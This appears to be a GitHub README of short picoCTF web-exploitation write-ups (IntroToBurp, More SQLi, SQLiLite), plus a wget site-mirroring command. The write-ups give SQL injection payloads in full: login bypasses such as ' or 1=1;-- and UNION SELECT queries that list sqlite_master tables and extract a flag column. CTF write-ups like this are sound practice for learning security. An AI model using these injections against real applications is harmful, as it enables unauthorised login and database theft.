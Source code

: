 ## Web Exploitation

### inspect
  - wget -m -p -E -k -K -np HOST_URL



### picoCTF 2024
#### IntroToBurp
![IntroToBurp question](IntroToBurp-q.png)
> fill "Registration" and in next step don't send "OPT" and [DONE].

---
---
### picoCTF 2023
#### More SQLi
![More SQLi question](MoreSQLi-q.png)

> just inject `' or 1=1;--` in password field.

<br>

> list all of tables with this query : `SomeThings' UNION SELECT name, sql, null from sqlite_master;--`

![all tables](MoreSQLi-1.png)

<br>

> in `more_table` table `flag` cloumn is exist, so we trying to "select flag from more_table" with this query : `SomeThings' UNION SELECT id, flag, 3 from more_table;--` and [DONE].

![flag](MoreSQLi-2.png)

---
---
### picoCTF 2022
#### SQLiLite
![SQLiLite question](SQLiLite-q.png)

> in first step use we trying to login as "admin" user with this request and inject `' or '1'='1';--` in password filed.

![login page](SQLiLite-1.png)

> after login see this massage so we trying to inspect this page and [DONE].

![after log in](SQLiLite-2.png)




